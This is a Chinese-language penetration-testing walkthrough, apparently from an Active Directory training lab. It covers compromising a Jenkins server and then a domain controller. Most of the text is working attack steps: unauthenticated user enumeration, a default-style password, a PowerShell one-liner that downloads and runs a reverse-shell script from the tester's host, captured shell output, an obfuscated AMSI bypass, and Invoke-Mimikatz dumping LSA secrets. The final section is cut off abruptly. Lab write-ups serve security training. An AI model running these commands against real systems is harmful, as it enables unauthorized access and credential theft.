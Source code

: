做这一步之前一定要已经关掉了防火墙

jenkin!这个web app在未登陆的情况下，可以通过下面页面查看有什么账号
```http://172.16.3.11:8080/asynchPeople//```

可以看到有builduser，jenkinsadmin，	manager三个账号

手动测试发现

Jenkins 登录账号信息是：
```builduser:builduser```



Jenkins特权提升，可以通过两种方法
1. 第一种是访问```http://172.16.3.11:8080/script```页面，如果当前账号拥有权限，将会被允许使用一个在线的console
2. 第二种是通过执行任务（例子页面：```http://172.16.3.11:8080/job/project0/```）,编译一段powershell反弹回来一个shell提权

powercat监听
```
PS C:\AD> . .\powercat.ps1
PS C:\AD> powercat -l -v -p 443 -t 100
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
```
因为本机装了python2，用python搭一个简单的http server

```
python -m SimpleHTTPServer 80
```

使用下面payload：
```
powershell.exe iex (iwr http://172.16.100.66/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.66 -Port 443
```

拿到了反弹shell
```
PS C:\ad> . .\powercat.ps1
PS C:\ad>  powercat -l -v -p 443 -t 1000
VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)
VERBOSE: Connection from [172.16.3.11] port  [tcp] accepted (source port 50568)
VERBOSE: Setting up Stream 2...
VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...
Windows PowerShell running as user ciadmin on DCORP-CI
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project1>whoami
dcorp\ciadmin
PS C:\Program Files (x86)\Jenkins\workspace\project1> hostname
dcorp-ci
```

记得在shell里bypass powershell policy和AMSI

ciadmin是这台机器的本地管理员
```
PS C:\Program Files (x86)\Jenkins\workspace\project1> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain


[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'